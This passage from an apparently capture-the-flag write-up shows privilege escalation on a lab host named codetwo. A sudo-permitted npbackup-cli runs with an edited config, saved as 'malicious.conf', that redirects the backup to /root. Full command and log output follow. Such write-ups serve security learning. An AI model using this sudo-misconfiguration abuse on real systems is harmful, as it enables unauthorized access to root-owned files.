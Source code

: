 So this file will backup the `/home/app/app`, we gonna leverage this point to change it to `/root` directory.

## Privilege Escalation
After changing, it gonna be like this.

```bash
paths:
-      - /home/app/app/
+      - /root/
```

The other thing we will keep the same and save as `malicious.conf`. To ensure it working well, we gonna do this in `/tmp` directory.

```bash
marco@codetwo:/tmp$ sudo /usr/local/bin/npbackup-cli -c malicious.conf -b
2025-08-17 14:38:22,422 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-08-17 14:38:22,464 :: INFO :: Loaded config E1057128 in /tmp/malicious.conf
2025-08-17 14:38:22,481 :: INFO :: Searching for a backup newer than 1 day, 0:00:00 ago
2025-08-17 14:38:25,272 :: INFO :: Snapshots listed successfully
2025-08-17 14:38:25,274 :: INFO :: No recent backup found in repo default. Newest is from 2025-04-06 03:50:16.222832+00:00
2025-08-17 14:38:25,274 :: INFO :: Runner took 2.792595 seconds for has_recent_snapshot
2025-08-17 14:38:25,274 :: INFO :: Running backup of ['/root'] to repo default
2025-08-17 14:38:26,390 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/generic_excluded_extensions
2025-08-17 14:38:26,390 :: ERROR :: Exclude file 'excludes/generic_excluded_extensions' not found
2025-08-17 14:38:26,390 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/generic_excludes
2025-08-17 14:38:26,390 :: ERROR :: Exclude file 'excludes/generic_excludes' not found
2025-08-17 14:38:26,391 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/windows_excludes
2025-08-17 14:38:26,391 :: ERROR :: Exclude file 'excludes/windows_excludes' not found
2025-08-17 14:38:26,391 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/linux_excludes
2025-08-17 14:38:26,391 :: ERROR :: Exclude file 'excludes/linux_excludes' not found
2025-08-17 14:38:26,391 :: WARNING :: Parameter --use-fs-snapshot was given, which is only compatible with Windows
no parent snapshot found, will read all files

Files:          15 new,     0 changed,     0 unmodified
Dirs:            8 new,     0 changed,     0 unmodified
Added to the repository: 190.612 KiB (39.887 KiB stored)

processed 15 files, 197.660 KiB in 0:00
snapshot c010518e saved
2025-08-17 14:38:27,987 :: INFO :: Backend finished with success
2025-08-17 14:38:27,990 :: INFO :: Processed 197.7 KiB of data
2025-08-17 14:38:27,991 :: ERROR :: Backup is smaller than configured minmium backup size
2025-08-17 14:38:27,991 :: ERROR :: Operation finished with failure
2025-08-17 14:38:27,991 :: INFO :: Runner took 5.511554 seconds for backup
2025-08-17 14:38:27,992 :: INFO :: Operation finished
2025-08-17 14:38:28,001 :: INFO :: ExecTime = 0:00:05.582843, finished, state is: errors.
```
